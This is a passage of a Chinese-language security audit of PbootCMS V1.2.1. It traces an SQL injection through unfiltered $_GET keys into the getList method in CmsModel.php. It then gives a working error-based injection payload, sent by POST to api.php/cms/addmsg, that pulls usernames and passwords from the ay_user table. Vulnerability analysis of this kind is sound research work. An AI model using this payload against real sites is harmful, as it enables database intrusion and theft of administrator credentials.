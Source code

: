 从代码中看他会收集外部所有的 $_GET 带入 getList 进行入库查询 value 是我们无法控制所以无法注入的，可是key是我们可控制可注入的！！！跟进 getList方法
路径：PbootCMS-V1.2.1\apps\api\model\CmsModel.php
function getList(

```
// 列表内容
    public function getList($acode, $scode, $num, $order, $where = array(), $fuzzy = true)
    {
        ...
        // 筛选条件支持模糊匹配
        return parent::table('ay_content a')->field($fields)
            ->where($where1, 'OR')
            ->where($where2)
            ->where($where, 'AND', 'AND', $fuzzy)
            ->join($join)
            ->order($order)
            ->page(1, $num)
            ->decode()
            ->select();
    } 
```

这里我把关键代码放出来了，可以看到接收$where以后直接仍进了数据库进行操作造成了注入

## 0x10.2 接口注入二

### 0x10.2.1 漏洞利用

```
url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addmsg
post:
    contacts[contentl`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
    mobile = 111
    content = 111 
```

![image](../img/bdf64ae168196e96890a6760d092f264.png)
